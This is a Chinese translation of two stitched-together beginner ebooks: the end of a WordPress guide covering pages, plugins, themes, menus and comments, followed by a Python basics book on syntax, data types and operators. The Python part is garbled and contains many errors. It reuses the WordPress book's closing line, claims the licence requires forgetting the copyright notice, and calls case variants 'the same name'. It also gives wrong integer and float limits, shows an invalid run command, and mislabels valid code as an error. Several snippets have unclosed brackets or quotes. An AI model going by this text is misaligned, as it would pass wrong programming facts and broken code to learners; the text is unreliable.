## 分类别名（Slugs）

分类别名（Category Slug）是链接友好的分类版本。这通常涉及小写字母、连字符。

## 分类与标签的区别

将你的网站想象成一本书。分类类似于目录，而标签则像索引。

# 第 2 周第 2 天 – 创建页面

创建新页面的第一步是找到控制台中的“页面”（Pages）菜单。点击“新建”（Add New）。

你会发现页面编辑器与文章编辑器界面相同。区别在于右侧的几个框。添加页面标题，例如“联系我们”（Contact Us）。记住，如果你创建了永久链接（permalinks），页面标题也将作为 URL 别名（slug）。

在添加页面内容后，你可以发布编辑器的部分，这在撰写文章时是类似的。如果你准备好发布，可以选择立即发布或计划在未来发布。

## 第2周 第4天 – 安装插件

插件允许你为你的 WordPress 网站添加更多功能。安装插件非常简单。

第一步是在登录网站后台（Dashboard）后找到并展开“插件”（Plugins）菜单。寻找“已安装插件”（Installed Plugins）页面，你可以在那里看到网站上已安装插件列表。某些插件在安装 WordPress 时会自动安装，例如 Jetpack 和 Akismet。

要添加新插件，只需点击“安装插件”（Add New）选项。从此页面，你可以选择从 WP 插件目录中浏览你想要安装的插件。你还可以根据插件的发布日期、流行程度或你标记为收藏的插件进行筛选。

要开始上传插件，请遵循此流程：选择文件 > 找到插件 zip 文件 > 现在安装 > 激活。

后台中“插件”菜单下的最后一个菜单部分是“编辑器”（Editor），你可以用通过修改独立的 PHP 文件来更改插件的某些元素。但请记住，如果你进行了某些修改，插件更新将覆盖你的更改。如果你不懂 PHP 代码，请不要修改插件的 PHP。

## 第2周 第5天 – 管理 WordPress 主题

管理 WordPress 主题的第一步是浏览后台中的“外观”（Appearance）菜单。选择“管理主题”（Manage Themes）。

在顶部，你可以看到当前活动的主题以及“自定义”（Customize）选项。当你点击此链接时，你可以看到一个预览窗口，它允许你对标语（Tagline）和站点标题（Site Title）进行更改。

如果你返回“管理主题”标签页，可以在活动主题下方查看可用主题列表。这些主题已经安装在你的 WP 网站上。

如果你点击任何主题的“实时预览”（Live Preview）链接，你可以看到你的网站使用该主题后的预览效果。在预览中，你可以浏览不同的页面，查看该主题如何处理模板、存档和文章。在预览窗口的左侧，你可以编辑主题设置。这些设置将根据主题中包含的特性类型而异。

务必点击左上角的“保存并激活”（Save & Activate）按钮以接受新主题。

## 第2周 第6天 – 创建自定义菜单

你可以创建一个自定义菜单，作为你网站的导航菜单。“菜单”（Menu）功能允许你构建自己的自定义菜单，以替换你所选主题的默认菜单。

某些自定义菜单包含链接、分类、页面和其他类型的内容。你还可以为菜单项包含自定义导航标签，并包含其他属性。

通常情况下，你想要设置的菜单数量没有限制。因此，如果你的主题包含多个菜单位置，你可以选择将哪个自定义菜单链接到每个位置。你还可以配合“自定义菜单”部件使用自定义菜单。

## 如何在 WP 网站中创建自定义菜单

第一步是展开后台左侧的“外观”菜单。点击“外观”中的“菜单”（Menus）链接，这将激活菜单编辑器页面。为你想要的的菜单提供名称，并点击“创建菜单”（Create menu）。然后，你可以在左侧的框中添加菜单项，例如链接、分类和页面。

如果你想更改从此页面看到的菜单选项，只需展开“显示选项”（Screen Options）标签页。然后添加其他菜单选项，如 CSS 类、格式、标签和文章。

一旦你整理好菜单项，请确保点击“保存菜单”（Save Menu）。

## 第2周 第7天 – 管理评论

在基于 WordPress 构建的站点管理评论与处理页面和文章的方式类似。

在后台中，寻找“评论”（Comments）页面。你可以像自定义其他 WordPress 屏幕一样自定义此屏幕。黄色指示器表示该评论需要审核。你可以通过“批量操作”（Bulk Actions）或通过悬停在操作链接上来回复评论。

在**作者（Author）**中，除了作者名称、博客 URL、电子邮件地址外，评论者的 IP 地址也会显示。如果你点击此链接，它将显示来自特定地址的所有评论。

在评论列中，每条评论都包含关于*提交于*（Submitted on）的某些信息，随后是评论发布在网站上的时间和日期。点击时间和日期链接将重定向到你网站上的那条评论。当你悬停在评论上时，你将看到你想对该评论的操作：批准、回复、编辑、垃圾桶或标记为垃圾邮件。

该列中有三个元素：**回复**（In Response To）。该文本指的是该评论所关联的文章名称，以及指向该条目文章编辑器的链接。

## 结论

再次感谢下载这本书！

我希望这本书能够帮助你学习 WordPress 的基础知识，到目前，你的网站或博客应该已经上线运行。

下一步是学习高级 WordPress 技术，例如 SEO、安全，以及使用 Java 和 Ajax 来增强你的网站或博客。

## Python 学院

## 从内到外彻底学习 Python 的无压力方法

## 目录

- 引言
- 第 1 章：Python 简介
- 第 2 章：语法
- 第 3 章：数据类型
- 第 4 章：运算符
- 结论
- “JavaScript 学院”预览

## 引言

我想感谢你并祝贺你下载《Python 基础》这本书。我希望这本书能够帮助你学习 WordPress 的基础知识，到目前，你的网站或博客应该已经上线运行。

这本书还包含了 Python 的简史和特性。再次感谢下载这本书，希望你喜欢它！

# 第 1 章：Python 简介

如果你正在寻找一种以可读性为重点的通用高阶语言，你应该考虑 Python。它支持多种编程范式，包括命令式和函数式。它的代码量比 C、C++ 和 Java 少。

编程语言的存在是有理由的。例如，Python 的开发是为了让程序员创建高效的代码。由于这种特性，你可以创建出使用更晦涩、复杂的语言难以实现的应用程序。

## Python 简史

Python 是 Guido Rossum 在 20 世纪 80 年代开发的。最初只是一个项目。Rossum 想要为黑客提供一种脚本语言解释器。他的小项目最终升级到了 Python 2.0，并于 2000 年 10 月发布。这个新版本有了垃圾收集和 Unicode 支持。Python 3.0（也称为 Python3000 和 py3）于 2008 年 12 月发布，并将某些特性回到了 2.6 和 2.7 版本。

## 为什么要使用 Python？

在检查错误和缺陷时，你使用的编程语言易于理解至关重要。如果编程语言太复杂，你编写和检查程序将会遇到困难。使用 Python，代码更容易阅读和编写；因此，你可以轻松解释代码并进行必要的更改。

通过 Python，你还可以从更短的开发时间中受益。正如前面提到的，Python 的代码量比 C、C++ 和 Java 少。它的代码实际上短了 5 到 10 倍；因此更高效、更不复杂。

如果你有 Java 背景，你可能会发现 C# 和 Java 非常相似。尽管如此，与 Java 相比，C# 仍然有自己的优缺点。微软声称他们开发 C# 的主要目标是产生一个更好的 C 和 C++ 版本。然而，与 C# 相比，Python 在科学和工程应用方面具有更好的多平台支持。在在使用 C、C++ 和 Java 时，它具有更强的扩展性。它更容易学习和理解，并且允许使用各种计算机环境。它的代码也更加简洁。

# Java

程序员将 Java 视为一种“一站式”编程语言。多年来，他们一直在寻找可以随处编写和随处运行的语言，并发现了 Java，它可以在不同的平台和计算机环境中良好运行。尽管如此，Python 也是一种一站式编程语言。它与 Java 非常相似，不同之处在于代码更简洁，更容易学习和理解。它的开发速度快得多，并且改进了存储不同数据类型的数据框或变量，这在运行应用程序时非常有用。

# PERL

PERL 代表 Practical Extraction and Report Language（实用提取与报告语言）。它是一种从另一个数据库获取和处理数据的编程语言。相比之下，Python 比 PERL 更好，因为它更容易阅读、实现、学习和理解。它具有更好的 Java 集成和数据保护。它还有更少的特定平台偏见。

# 为什么 Python 是初学者的理想选择？

如果你刚开始编程，可能想考虑 Python。它对初学者来说是理想的，因为它具有一致且简单的语法以及巨大的标准库，允许你完成多个项目。其中涉及的作业不仅限于常见的四功能计算器和平衡性检查程序。

当你习惯了用 Python 编写程序时，你会发现制作现实的应用程序其实很容易。交互式解释器还允许你测试语言特性。在 Python 中，你可以专注于核心的编程技能，如程序分解和数据类型设计，以及基础概念，包括程序过程和循环。

由于 Python 涉及到多个库和系统调用，你可以开发具有易于编程的界面的应用程序。你还可以完成应用程序接口（API）所需的任务。

如果你以前从未用过任何其他编程语言，请不要担心。即使是没有任何基础编程知识或经验的人也可以轻松掌握 Python 编程语言的基础知识。

至于安装，Python 很容易安装。大多数 UNIX 和 Linux 发行版实际上都包含在它们的软件包中。如果你从惠尔（HP）购买了 Windows 电脑，你可以直接使用 Python，因为它是随系统预装的。

为了让你的操作更方便，你应该学习如何使用文本编辑器以及集成开发环境（IDE）。阅读带有示例代码和程序的编程书籍也会很有帮助。

关于版权，Python 开发者允许程序员对源码做他们想做的事，只要忘记包含版权声明即可。版权规则并不严格。你甚至可以销售二进制和源代码形式的副本，以及涉及使用 Python的产品。然而，如果你想使用该标志，请确保你已获得许可。

Python 非常稳定。事实上，它的稳定性已足够日常使用。你可以预计在六到十八个月内出一个新版本。开发者发布错误修复版本，以确保新版本比之前的版本更好。

如果你想执行静态分析或搜索错误，可以使用 Pylint 或 PyChecker。前者是一个检查模块是否符合编码标准的工具，并允许自定义插件。后者是一个在源代码中寻找 bug 的静态分析工具。

既然你已经学习了这门编程语言的各种知识，你可能仍然好奇 Python 的名字是怎么来的。吉多·范·罗姆（Guido van Rossum）喜欢蛇吗？事实上，他喜欢的是一部名为《蒙蒂派瑟的飞行马戏》的电视节目，而不是那种爬行动物。

在 Python 开发期间，他正在阅读这部喜剧剧的剧本，认为“Python”是一个合适的名字，因为它简短、独特且具有恰当的神秘感。事实上，文档中允许并鼓励引用这部喜剧节目。

# 第 2 章：语法

Python 具有简单且直接的语法。它甚至鼓励程序员在不使用准备好的样板代码的情况下编写程序。`print` 指令实际上是所有指令中最简单的。它打印行并包含换行。你可能会注意到在编程语言的新大版本中 `print` 指令有所不同。

Python 2.0 是更常用的版本，而 Python 3.0 支持最新功能且语义上更正确。无论如何，在 2.0 版本中 `print` 语句不被视为函数；因此你可以在代码中不带括号调用它。另一方面，在 3.0 版本中 `print` 语句被视为函数；因此如果你想调用它，必须使用括号。

## 交互模式编程

你可以在不同的模式下执行程序。如果你在调用解释器时不传递脚本文件作为参数，你将得到：

```


```
$ python

Python 2.4.3 ( #1, Nov 11 2010, 13:34:43 )

[GCC 4.1.2 20080704 ( Red Hat 4.1.2 – 48 )] on linux

Type “help”, “copyright”, “credits” or “license” for more information.

>>>
```

当你看到这个提示符时，可以输入任何所需的文本并按回。在这个示例中，我们将使用：

```
>>> print("Python and Holy Grail")
```

无论你使用哪个版本，如果你运行上述示例，将得到以下输出：

```
Python and Holy Grail
```

# 脚本模式

如果你带脚本参数调用解释器，脚本将开始执行直到完成。完成后，解释器将不再活动。考虑以下示例。示例程序写在脚本并具有`.py`扩展名：

```
print("Python and Holy Grail")
```

如果你这样运行它：

```
$ python.py
```

另一种执行脚本的方法是修改`.py`文件，例如：

```
#! /usr/bin/python

print("Python and Holy Grail")
```

如果你这样运行它：

```
$ chmod + x filename

./filename
```

# 标识符

标识符基本上用于确定函数、变量、模块、类以及任何对象。它以下划线（`_`）或字母开头。随后是数字、下划线或其他字母。作为程序员，可以自由使用任何字母或数字。你可以使用大写和小写字母。

然而，标识符内部不能使用标点和特殊字符，例如`@`、`$%`。此外，Python 是一种大小敏感的编程语言。这意味着在使用大小字母时要小心。例如，`wendy`、`Wendy`和`WENDY`是同一个名称，但在 Python 中被视为三个不同的标识符。

# Python标识符规则

在 Python 中编写程序时，你必须遵守以下规则：

- 类名必须以大写字母开头，其余标识符必须以小写字母开头。
- 以单个下划线开头的标识符为私有。
- 以双下划线开头的标识符为强私有。
- 以双下划线结尾的标识符为语言定义的特殊名称。

# 保留字

请注意，在 Python 中某些词你不能作为常量、标识符名称或变量使用。所有关键字也都使用小写字母编写。以下

以下是编程语言中保留字的表格：

| And | Assert | Break | Class | Continue |
| def | del | elif | else | except |
| exec | finally | for | from | global |
| if | import | in | is | lambda |
| Not | or | pass | print | raise |
| return | try | while | with | yield |

## 缩进与行

在 Python 中，没有使用大括号来指示类定义和函数的代码块。同样，流程控制也不包含在内。如果你想标记此类代码块，必须使用行缩进。你可以将其调整为空格数量，但要确保对块中的所有语句都进行缩进。为了帮助你进一步理解，请考虑以下示例代码：

```
if True:

    print "Correct"

else:

    print "Incorrect"
```

```
if True:

    print "Input"

    print "Correct"

else:

    print "Input"

    print "False"
```

运行第一个示例会生成输出。然而，运行第二个示例会导致错误。为什么会发生这种情况？嗯，你必须记住，在 Python 中，代码块是通过缩进具有相同数量的连续连续来形成的。

缩进仅仅是分组语句的一种。程序员使用它来代替代码块的大括号。程序支持制表符（Tabs）和空格，但标准缩进要求标准代码具有相似数量的空格。通常情况下，使用四个空格。看看下面的示例：

```
w = 1

if w == 1:

    # 这显示了恰好四个空格的缩进

    print "w is 1."
```

# 缩进误言

关于 Python 缩进存在某些误言。以下是其中一些：

每份源代码中都必须有空白字符。

实际上，你不需要在所有的源代码中使用空白字符。空白字符并不一定具有意义，尽管缩进是。正如你所学的，这是位于语句最左侧的空白字符。在其他任何地方，空白字符并不重要，可以省略。你可以以任何喜欢的方式使用它，甚至在程序的任何地方插入任意的空白或不包含任何内容的空行。

此外，缩进的精确数量并不真正重要，但嵌套块的相对缩进非常重要。当你使用隐式或显式的换行行时，缩进级别实际上不会被识别。例如，你可以将一个列表跨越多行。缩进完全不重要。

看看下面的示例：

```
foo = [

  'a string',

  'another string',

  'a short string'

]

print foo
```

如果你运行上面的代码，你将得到以下输出：

```
['a string', 'another string', 'a short string' ]
```

这是另一个示例：

```
bar = ' look at this example ' \

  of a long string ' \

  that is split ' \

  across multiple lines ' \

print bar
```

如果你运行上面的代码，你将获得以下输出：

> look at this example of a long string that is split across multiple lines

你的程序中应该使用特定的缩进风格。

嗯，这个说法既是正确的也是错误的。你可以将内部块写在一行而不对其进行缩进。你可以使用以下“if语句”的任何版本，因为它们都是有效的并产生相同的输出：

```
if 1 + 1 == 2:

  print "foo"

  w = 99
```

```
if 1 + 1 == 2:

print "foo"; print "bar \ ; w = 99
```

```
if 1 + 1 == 2 : print "foo " print "bar " ; w = 99
```

作为一名程序员，你可能希望将代码块写在单独的行上，如第一个示例所示。然而，在某些情况下，有类似的 if 语句可以方便地写在每一行。

如果你决定将代码块写在单独的行上，那么你必须遵循缩进规则。你必须使包含的块缩进比“if语句”更多。

结论是，你将被强制遵守 Python 中的规则，除非你选择让程序结构变得复杂。该编程语言不允许使用伪缩进来混淆程序结构。

请记住，在 Python 编程语言中，代码块是通过缩进表示的；因此，每个程序的缩进都是相同的。代码格式的一致性使得程序更容易阅读和理解。

在 Python 中不能混合空格和制表符。

是的，这是正确的，即使对于用 C 语言编写的程序也是。你不能安全地混合空格和制表符。尽管对于你的编译器来说可能没有太大区别，但在处理代码时可能会很困难。例如，如果你将源代码移动到具有不同制表位设置的编辑器，更容易引入错误。

再次，请记住，在缩进中混合空格和制表符是不理想的。不过你可以单独使用空格或制表符。此外，你可能还想完全避免制表符。毕竟，制表符的语义并没有定义得那么完善，在不同类型的编辑器和系统上可能会不同。

制表符在复制和粘贴操作期间经常被错误地转换或破坏，每当源代码插入 Web 页面或任何其他类型的标记代码时也是如此。

可以跳过缩进并改用关键字。

是的，你可以跳过缩进只使用关键字。实际上有几个程序员是这样做的。事实上，有些程序员倾向于使用`endif`而不是使用缩进来结束一个代码块。

这种方法在 Python 中是无法被识别的。通常情况下，缩进级别存储在栈中。因此，缩进令牌是如何被词法分析器解析的。每当嵌套块开始时，一个新的缩进级别被推入栈中。缩进令牌随后被插入到流中，并传递给解析器。如果发现为空，就会产生语法错误。每弹出一个值，就会产生一个退缩令牌。可能会连续出现多个退缩令牌。在每份源代码的结束处，会为栈中的每个级别产生退缩令牌。这直到栈变为 0。

# 多行语句

当你结束一个语句时，你可以使用换行，也可以使用延续符号（`\`）来指示该行需要继续。为了帮助你进一步理解这一概念，请考虑以下示例：

```
total = first_item + \

second_item + \

third_item
```

当你编写位于括号（如`{ }`、`( )`、`[ ]`）内的语句时，不需要使用延续符号。例如，如果你想显示年份中的月份，你可以简单地写：

`year = ['January', 'February', 'March', 'April', 'May', 'June', 'July', 'August',`

你被允许在一行中编写多个语句或创建多个组作为 suite。在编写多个语句时，请记住包含分号（`;`）是至关重要的。分号允许你编写尽可能多的语句，只要它们不启动新的代码块。考虑以下示例：

```
import sys ; y = 'bar'; sys.stdout.write ( y + ' \n' )
```

那么 suite 具体是什么呢？嗯，它们是由代码块组成的语句组。复合或复杂语句（如`if`、`while`、`def`和`class`）需要一个 suite 和一个头部行。

那么头部行是什么呢？它们以关键字开始语句并以冒号（`:`）结束。此外，它们后面跟着由一个或多行组成的 suite。考虑以下示例：

```
if expression:

  suite

elif expression:

  suite

else:

  suite
```

## 引号

作为一名程序员，你被允许使用单引号（`' '`）、双引号（`" "`）和

在定义字符串字面量时，请使用三引号（`'''`或`"""`)。同样，请确保在字符串的开头和结尾使用相同类型的引号。通常，三引号用于表示跨越多行的字符串。请看下面的示例：

`paragraph = """ 你正在阅读一个由多行和句子组成的段落示例。你是一个出色的程序员。 """`

## 注释

涉及到注释时，你应该使用井号符号（`#`）来开始注释。但是，这个井号符号不应该出现在字符串字面量内部。此外，该符号之后到行尾的字符都应该包含在注释中。在 Python 中，解释器不识别注释。为了帮助你进一步理解这一概念，请看下面的示例：

```
### This is the first comment
```

```
print " Monty Python’s Flying Circus is a British sketch comedy series. "
```

```
### This is the second comment
```

如果你运行上述示例，将得到以下输出：

Monty Python’s Flying Circus is a British sketch comedy series.

你也可以在表达式或语句之后编写另一个注释，例如：

```
name = "Wendy" # This is a sample comment
```

如果你想对多行进行注释，也可以这样做。例如：

```
### This is a sample comment.

# This one is also a comment.

# This is another comment.

# This comment is written by Wendy.
```

## 空行

这些行在 Python 编程语言中是不被识别的。尽管如此，它们非常注释。它们包含了空白甚至注释。在交互式解释器会话中，必须使用空行来结束多行语句。

# 第 3 章：数据类型

在 Python 中，输入数据根据不同的类别进行分类。分类的主要目的是为了帮助像你这样的程序员更高效地处理信息。这些类别充当数据存储位置，你可以在任何运行 Python 平台时访问它们。

## 变量

变量包含专门分配给它们的值。如果你正在编写应用程序的复杂代码，你可能希望将信息存储在变量中。不要担心，因为你可以在需要时访问它们。你甚至可以使用它们来确保从终端用户那里收集的信息保持安全可靠。

## 数值类型

Python 编程语言中的数字与你用于解决代数题的数字不同。在数学中，在数字末尾加上`.0`实际上没有任何意义。它不会改变数值的值。例如，3 和 3.0 是相同的。

但在 Python 中，3 和 3.0 是不同的数字。在程序处理它们之前，它们必须经过某些数据处理方法。作为程序员，你必须学习不同的数值类型。

### 整数

所有的整数都是整数。包含小数点的数字不是整数；因此，3 是整数，而 3.0 不是。Python 中的整数其特征是数据类型`int`。

注意，整数有容量限制。如果你尝试处理超出允许限制的值，将产生一个错误。整数通常处理 -9,223,372,036,854 到 9,223,372,036,854 之间的数字。

`int`变量还有一些有趣的特性。例如，二进制只使用 0 和 1，八进制使用 0 到 7 的数字，十进制具有与十进制计数系统相似的属性，而十六进制则使用字母 A 到 F 和数字 0 到 9 作为数字。

### 浮点值

在 Python 中，任何包含小数点的数字都被视为浮点值。小数点后的数字是否为 0 并不重要。例如，3.0、1.5 和 11.4 都是浮点值。它们存储在`float`数据类型中。浮点值优于整数的一个巨大优势是它们拥有更大的存储空间；因此，它们能够存储非常小或大的值。

尽管如此，你不认为它们具有无限的存储空间。仍然存在限制。尽管如此，它们可以包含低至±2.2250738585072014 × 10⁻³⁰⁸ 和高至 1.797691348623157 × 10⁻³⁰⁸ 的值。使用浮点值分配值有两种：首先，你可以直接赋值。其次，你可以使用科学计数法。记住，负指数会产生等效分数。

# 复数

这些数字由实数和虚数组合而成。它们通常用于动态系统、量子力学、计算机图形、电气工程和流体力学。复数可以在 Python 和其他少数编程语言中进行处理。

### 布尔值

这是两个常量对象`True`和`False`。它们代表真值。在数值上下文中，它们的功能等同于 0 和 1。如果一个值可以被解释为真值，你可以使用函数`bool`给布尔值赋值。

## 字符串

它们是用双引号连接起来的字符组。考虑下面的示例：

```
TheString = “ Python got its name from a popular comedy show. “
```

如你在上方示例代码中所示，短语`Python got its name from a popular comedy show.`被赋值给变量`String`。

计算机无法理解字母，只能理解数字。所以当你编写程序时，Python 根据代表其字母的数字进行读取和解释。例如，在 ASCII（美国交换交换）中，65 代表字母 A。

```
ord (“ A ”
```


如果你需要转换字符串，可以使用`int`或`float`。

# 第 4 章：运算符

操作数通过运算符进行操作。Python 语言中有七种运算符。下表显示了这些运算符并提供了简要说明。

## 算术运算符

| 运算符 | 描述 |
| --- | --- |
| 加法（`+`） | 相加值。 |
| 减法（`-`） | 从左操作数中减去右操作数。 |
| 乘法（`*`） | 乘法值。 |
| 除法（`/`） | 左操作数除以右操作数。 |
| 取模（`%`） | 左操作数除以右操作数并返回余数。 |
| 幂（`**`） | 对运算符进行指数计算。 |
| 整除（`//`） | 除以操作数但消除小数点。 |

## 比较运算符或关系运算符

| 运算符 | 描述 |
| --- | --- |
| 等于（`==`） | 如果两个操作数的值相等，则为真。 |
| 不等于（`!=`） | 如果两个操作数的值不等，则为真。 |
| 不等于（`<>`） | 如果两个操作数的值不等，则为真。 |
| 大于（`>`） | 如果左操作数大于右操作数，则为真。 |
| 小于（`<`） | 如果左操作数小于右操作数，则为真。 |
| 大于等于（`>=`） | 如果左操作数大于或等于右操作数，则为真。 |
| 小于等于（`<=`） | 如果左操作数小于或等于右操作数，则为真。 |

## 赋值运算符

| 运算符 | 描述 |
| --- | --- |
| `=` | 将右操作数的值赋值给左操作数。 |
| `+=` | 将右操作数加到左操作数上，并将结果赋值给左操作数。 |
| `-=` | 从左操作数中减去右操作数，并将结果赋值给左操作数。 |
| `*=` | 将左操作数与右操作数相乘，并将结果赋值给左操作数。 |
| `/=` | 左操作数除以右操作数，并将结果赋值给左操作数。 |
| `%=` | 使用两个操作数来取模，并将结果赋值给左操作数。 |
| `**=` | 对运算符进行指数运算，然后将值赋值给左操作数。 |
| `//=` 整除（floor division） | 对运算符进行整除并将值赋值给左操作数。 |

## 按位运算符

| 运算符 | 描述 |
| --- | --- |
| `&` 二进制位与 | 如果该位在两个操作数中都存在，则复制该位。 |
| `\|` 二进制位或 | 如果该位在任一操作数中存在，则复制该位。 |
| `^` 二进制位异或 | 如果该位在其中一个操作数中存在，但不同不同都存在，则复制该位。 |
| `~` 二进制位取反 | 它翻转比特位。 |
| `<<` 二进制左移 | 根据右侧操作数指定的位数，将左侧操作数的值向左移动。 |
| `>>` 二进制右移 | 根据右侧操作数指定的位数，将左侧操作数的值向右移动。 |

## 逻辑运算符

| 运算符 | 描述 |
| --- | --- |
| `and` 逻辑与 | 如果两个操作数都为真，则条件为真。 |
| `or` 逻辑或 | 如果其中一个操作数为非零，则条件为真。 |
| `not` 逻辑非 | 它反转操作数的逻辑状态。 |

## 成员运算符

| 运算符 | 描述 |
| --- | --- |
| `in` | 如果在特定序列中找到变量，则评估为真。否则，评估为假。 |
| `not in` | 如果在特定序列中没有找到变量，则评估为真。否则，评估为假。 |

## 恒等性运算符

| 运算符 | 描述 |
| --- | --- |
| `is` | 如果运算符两边的变量指向同一个对象，则评估为真。否则，评估为假。 |
| `is not` | 如果运算符两边的变量指向同一个对象，则评估为假。否则，评估为真。 |

## 结语

再次感谢你下载这本书！

希望这本书能够帮助你学习 Python 编程语言。

下一步是应用你从书中中学到的知识。


感谢你花时间阅读我的书。作为答谢的意意，我想免费送给你一本我的 #1 畅销书之一！



在未来你还会收到许多精彩且免费的内容！！只需点击下方链接并输入你的姓名和邮箱地址，即可立即获取你的免费内容！


点击此处返回书籍！
